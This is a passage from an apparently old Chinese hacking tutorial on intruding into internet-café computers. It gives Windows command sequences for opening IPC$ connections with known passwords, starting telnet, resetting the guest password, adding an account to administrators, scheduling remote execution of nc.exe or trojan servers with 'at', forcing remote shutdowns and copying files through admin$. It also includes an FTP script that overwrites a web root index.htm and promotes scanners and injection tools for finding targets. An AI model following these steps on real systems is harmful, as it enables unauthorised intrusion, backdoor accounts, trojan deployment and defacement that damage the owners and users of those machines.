

图 1.5

#### 1.2.2 不要总说 net 是“网”

如果我们知道了某台电脑的 IP 地址，也知道对方的用户名和密码的话，就可以尝试来玩 IPC$ 连接。确切说这个也许不叫入侵，它只是系统特意设置的一个“后门”，方便管理操作之用。假设对方的 IP 地址为 `127.0.0.1`，对方的用户名 `xiaoxing`，密码是 `123456`。我们就可以使用 `net use \\127.0.0.1\ipc$ 123456 /user:xiaoxing` 来与对方建立连接，如图 1.6。

`net start telnet`，这条命令可以打开 telnet 远程登录服务。接下来我们看怎样把一个用户的密码改掉，比如我们要把 guest 帐户的密码改为 wangba，`net user guest wangba` 就可以了。将某一个特定用户（比如 xiaoxing）添加到管理员用户组中去，则命令就是 `net localgroup administrators xiaoxing /add`。net 命令的功能是非常强大的，也是网吧小菜们必须掌握的命令之一！大家要好好地温习这个命令，想入侵网吧，这个可少不了啊！



图 1.6

#### 1.2.3 几点死机，自己说的算

at 是一个类似于计划任务的命令，它可以让我们自由地设定在什么时间执行什么操作，也就是运行什么程序。首先我们可以使用 `net time` 命令得到对方的系统时间，`net time \\192.168.0.253`，如图 1.7。对方的系统时间为 17:10 分，如果我们要让对方在 17:20 分执行 nc.exe 的话，命令就是 `at \\192.168.0.253 17:20 nc.exe`。当然了，具体使用的时候，可以将配置好的木马服务端程序上传到对方电脑上，然后就可以通过 at 命令来远程执行了。忘记说关机了，嘿嘿，倘若是要让对方关机的话，可以使用 `at \\192.168.0.253 17:20 tsshutdn`，这样，远程电脑 192.168.0.253 就会在 17:20 分起倒计时 60 秒自动关机了。



图 1.7

> 注意：在使用 at 命令前，有一个前提条件，就是已经与远程电脑成功地建立了 IPC$ 连接。

#### 1.2.4 copy 命令不可少

刚才在讲解 at 命令的使用时，或许有人会提一个很关键的问题，那就是如何将 nc.exe 或者是配置好的木马服务端程序上传到对方的电脑上呢？我们首先要与远程电脑成功建立 IPC$ 连接，然后可以使用如下命令格式：`copy pslist.exe \\192.168.0.253\admin$`，这样就将当前目录下的 pslist.exe 复制到 192.168.0.253 电脑的 WINDOWS 目录下了，如图 1.8。

如果是想将对方电脑里的东西下载到我们电脑上呢，则可以使用 `copy \\192.168.0.253\admin$\filename c:\`。



#### 1.2.5 echo 绝对不是废物命令

对于我们小菜来说，echo 命令最大的用处就是可以生成文件，`echo 黑客X档案>index.htm`，`echo 黑客X档案杂志社>>index.htm`。第一条命令的作用是生成 index.htm 文件，文件的内容就是“黑客X档案”，倘若当前目录下已经有此文件的话，将覆盖掉原来的文件；而第二条命令的作用是将“黑客X档案杂志社”这句追加到 index.htm 文件的后边。

上边是 echo 命令最基本使用，那么在实际的应用中，echo 到底有什么作用呢？首先，我们需要申请一个免费的主页空间，然后在目录下建立如下内容的 txt 文件（以 chinaren 服务器为例，`//` 后为注释）：

```bat
echo open upload.chinaren.com> c:\cnhack.txt   // 登录你的 ftp 空间
echo cnhack >> c:\cnhack.txt                   // 输入用户名
echo 39abs >> c:\cnhack.txt                    // 输入密码
echo get index.htm c:\inetpub\wwwroot\index.htm >> c:\cnhack.txt   // 将空间上的 index.htm 文件下载到本地电脑目录
echo bye >> c:\cnhack.txt                      // 退出 ftp
```

然后，我们就可以使用 `ftp -s:c:\cnhack.txt` 命令来自动登录我们的 FTP 空间，进行文件的自由上传或下载了。别忘记了最后删除你建立的那个 cnhack.txt 文件，里边可是有你 FTP 空间的密码哟，`del c:\cnhack.txt`。

#### 1.2.6 不能不知道的命令

其实，Windows 系统下的命令多如牛毛，限于篇幅，我们无法全部讲解，在此列出了一些常用的命令，大家可以通过“运行”栏直接输入运行。

- gpedit.msc —— 组策略
- nslookup —— IP 地址侦测器
- explorer —— 打开资源管理器
- logoff —— 注销命令
- tsshutdn —— 60 秒倒计时关机命令
- lusrmgr.msc —— 本机用户和组
- services.msc —— 本地服务设置
- net start messenger —— 开始信使服务
- net stop messenger —— 停止信使服务
- regsvr32 /u *.dll —— 停止 dll 文件运行
- rononce -p —— 15 秒关机
- regedt32 —— 注册表编辑器
- regedit.exe —— 注册表
- SHUTDOWN —— 关机（关硬盘）
- shutdown -l —— 注销
- shutdown -r —— 重启
- shutdown -s —— 关机
- shutdown -a —— 取消关机
- shutdown -i —— 显示 GUI 界面
- shutdown -f —— 强行关闭运行程序并无警告提示（XP 系统）
- wscript —— Windows 脚本宿主设置
- mstsc —— 远程桌面连接
- cmd.exe —— CMD 命令提示符

### 1.3 网吧全方位扫描

#### 1.3.1 扫描工具的分类

对于网吧小黑来说，扫描工具的作用实在是太大了，它可以轻松地帮助我们找到网吧主机或是网吧中其他电脑可能存在的安全漏洞。现如今的扫描工具有许多，但大致的可以分为以下几类。

- **专用漏洞扫描工具**：这类工具基本上是针对某一特定漏洞而编写的，它们的功能非常单一，比如 IPCScan 共享漏洞扫描、MS05-039 远程溢出漏洞扫描器等。
- **单一型的扫描工具**：我认为这类工具主要是指端口扫描程序，比如 Nmap、superscan 等。比起那些专用漏洞扫描工具，这类工具扫描出来的信息要详细得多，包括开放的端口情况、服务的 banner 信息、使用的操作系统类型等等。
- **大型综合扫描配置工具**：x-scan、流光、x-way 等属于这类工具。这类工具通常都比较大，它们可以检测的项目非常多，也非常广泛，但因此也使得检测时间最长。如果我们需要对某一台服务器尽可能多地获取其相关信息，使用这类大型综合扫描工具是最有效的。
- **针对网站的脚本扫描工具**：这就是我们现在经常提及的脚本注入工具了，这类工具可以自动检测网站上是否存在注入点并进行相应的注入攻击，比如爆出用户密码或执行命令等。nbsi、hdsi、啊D注入工具等都是目前国内最常使用的注入工具。



图 1.9

#### 1.3.2 菜鸟的扫描工具

##### superscan

superscan，是 Foundstone 出品的一款优秀的端口扫描工具，也是菜鸟们必备的一款工具，目前其最新的版本为 4.0，运行后界面如图 1.9。我们在开始 IP 栏以及结束 IP 栏中输入要检测的 IP 地址，然后点击右边的“->”，要扫描的 IP 地址段就会显示在右方的框中了，如图 1.10。点击最左下方的蓝色箭头，superscan 就开始扫描了，扫描的结果会显示在中间的框中，如图 1.11。

事实上，刚才我们使用的是 superscan 的默认设置，它的默认设置其实已经完全可以满足网吧小黑们的需要了。当然，我们也可以通过“主机和服务扫描设置”这一项来进行端口的定制。点击打开“主机和服务扫描设置”项，我们会在“UDP 端口扫描”和“TCP 端口扫描”这两项中看到默认检测的端口，如图 1.12。



图 1.10



图 1.11

在此我们可以自由定制，如果是想取消掉多余的端口的话，可以先选择那个端口，然后点击下方的“清除所选”；倘若是要增加端口的话，可以在左方的开始端口处输入要添加的端口号，然后点击右边的“-->”，新端口就会添加到右方的端口栏了。



图 1.12

> **小提示：如何获取网吧中的 IP 地址段呢？**  
> 我们可以通过运行 ipconfig 命令来查看自己的局域网 IP 地址，如图 1.13。这样，整个网吧的 IP 地址段我们也就可以一目了然了。

##### x-scan

X-scan 是国内最著名的综合网络检测扫描工具，最新版本为 3.3。可以说，不管是菜鸟还是老鸟，都曾经使用过 x-scan。解压缩后，我们会在目录下找到 x-scan_gui.exe 文件，运行后的界面如图 1.14 所示。



图 1.13



图 1.14

最上方的图标依次为“扫描参数”“开始扫描”“暂停扫描”“终止扫描”“检测报告”“使用说明”“在线升级”以及“退出”。我们首先点击选择“扫描参数”，在“指定 IP 范围”栏中输入要扫描的 IP 地址。如果要扫描的是一个 IP 地址段的话，可以使用 192.168.0.1-254 这样的格式，如图 1.15。

确定后，就可以点击“扫描”按钮来进行自动检测了。如图 1.16，我们可以清楚地看到当前检测的项目，在左边一栏中也列出了检测到的漏洞，红色叹号标记的就为最严重的安全漏洞。当所有的项目都检测完毕后，x-scan 会以 html 网页格式给出一份详细的检测报告，以供我们分析，如图 1.17。



图 1.15

